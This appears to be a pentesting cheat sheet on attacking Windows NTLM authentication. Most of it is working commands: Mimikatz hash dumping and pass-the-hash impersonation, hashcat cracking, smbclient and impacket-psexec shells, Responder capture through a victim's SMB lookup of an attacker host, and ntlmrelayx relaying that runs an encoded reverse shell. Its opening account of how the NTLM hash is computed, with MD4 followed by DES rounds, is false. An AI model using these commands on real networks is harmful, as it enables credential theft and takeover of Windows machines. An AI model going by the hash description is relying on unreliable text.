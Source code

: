 The NTLM hash is the cryptographic format in which user passwords are stored on Windows systems. NTLM hashes are stored in the SAM (security account manager) or NTDS file of a domain controller. They are a fundamental part of the mechanism used to authenticate a user through different communications protocols. It’s, therefore, critical information and highly sought after by hostile actors when trying to unleash a cyber-attack. When pentesting, for example, it’s common for attackers to try to obtain these hashes (using tools such as pwdump or mimikatz) and use Pass The Hash techniques using NTLM hashes to exploit the privileges of one or more systems. In this way, they could execute elevated privileges and even execute commands. The NTLM hash is encoded by taking the user’s password and converting it into a 16-byte key using an MD4 hash function. This key is divided into two halves of 8 bytes each, which are used as input to three rounds of DES encryption to generate a 16-byte output that represents the NTLM hash. Each DES round uses an 8-byte key derived from the original key half using a parity operation. The two 8-byte results from the three DES rounds are concatenated to form the 16-byte NTLM hash that is used to verify the user’s password in the Windows operating system. NTLM hashes are likely to be used in many Windows authentication attacks, so it’s advisable to limit their use and use Kerberos.

### Mimikatz

[Mimikatz](https://github.com/ParrotSec/mimikatz) is a very useful tool that can do many things once executed on a Windows system, like dumping NTLM hashes of the users. As their GitHub page says, it can be run with

```powershell
.\mimikatz.exe
```

Warning: Mimikatz's commands could not work depending on the Windows version. Make sure to download the correct version after checking with `systeminfo` the Windows version.

Then, if we have the privileges, it can be used to dump NTLM hashes with

```powershell
privilege::debug
token::elevate
lsadump::sam
```

To impersonate another user

```powershell
 sekurlsa::pth /user:Administrator /domain:<DOMAI> /ntlm:<NTLM-HASH> /impersonate
```

### Cracking the NTLM hashes

The **1000** code is for NTLM hashes. The username is dump along with the hash. The cracking is done with the following code

```shell
hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt
```

The plaintext credential we will find are used in the authentication method in the Windows system, like RDP, SMB or other services, if the user has the required privileges to use that services.

### Passing the NTLM hashes

The NTLM hashes can be used also as is if the protocol supports it. An example is SMB

```shell
smbclient \\\\<TARGET-IP>\\secrets -U Administrator --pw-nt-hash <NTLM-HASH>
```

We can escalate the writables shares with `impacket-psexec`, a oneliner tool that opens a reverse shell with the exploited target.

```shell
impacket-psexec -hashes 00000000000000000000000000000000:<NTLM-HASH> Administrator@<TARGET-IP>
```

### Cracking the Net-NTLMv2 hashes

One of the authentication protocols Windows machines use to authenticate across the network is a challenge / response / validation called Net-NTLMv2. If can get a Windows machine to engage my machine with one of these requests, we can perform an offline cracking to attempt to retrieve their password. In some cases, we could also do a relay attack to authenticate directly to some other server in the network.

Once identified our interface, we can start our interceptor with

```shell
sudo responder -I <INTERFACE>
```

And from the Victim we only need to mount as a SMB share a fake provided path

```powershell
dir \\<ATTACKER-IP>\test
```

In this way `responder` will dump the hash that could be cracked with code **5600** on hashcat

```shell
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force
```

### Relaying the Net-NTLMv2 hashes

We can perform a `ntlmrelayx` attack if the gained hash is too difficult to be cracked. In this case the `<TARGET-IP>` is the second exploitable machine on the network.

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP> -c "powershell -enc <ENCODED-REVSHELL>"
```

The encoded reverse shell can be crafted with some UTF-16-BE malicious code crafted with [RevShells](https://www.revshells.com/). Then, we have to gain the hash from the first machine. We can do the same attack as before, mounting on the machine 1 the fake SMB share, in order to gain the hash.

```powershell
dir \\<ATTACKER-IP>\test
```

Now we `impacket-ntlmrelayx` will pass the hash to the second machine to authenticate us with the same hash. If the user is also the Administrator of the second machine, we will be logged as Administrator.